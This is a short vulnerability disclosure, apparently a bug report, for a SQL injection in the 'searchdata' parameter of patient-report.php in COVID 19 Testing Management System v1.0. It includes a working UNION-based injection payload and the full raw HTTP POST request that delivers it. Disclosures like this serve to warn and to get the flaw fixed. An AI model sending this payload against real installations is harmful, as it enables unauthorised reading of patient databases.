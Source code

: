 # COVID 19 Testing Management System v1.0 has SQL injection

BUG_Author: hertz216

Website source address：https://www.sourcecodester.com/htmlcss/15055/covid-19-testing-management-system-ctms.html

Vulnerability File: /covid-tms/patient-report.php

POST parameter 'searchdata' exists SQL injection vulnerability

Payload:searchdata=1') UNION ALL SELECT NULL,NULL,CONCAT(0x71727374,0x31323334,0x61626364),NULL,NULL,NULL,NULL-- -&search=Search

```
POST /covid-tms/patient-report.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=unntgo3ptqns82l8h9h09sqi8u
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/covid-tms/patient-search-report.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 120

searchdata=1') UNION ALL SELECT NULL,NULL,CONCAT(0x71727374,0x31323334,0x61626364),NULL,NULL,NULL,NULL-- -&search=Search
```

![image](https://github.com/mhz2846415362/bug_report/blob/main/vendors/pictures/concat.png)
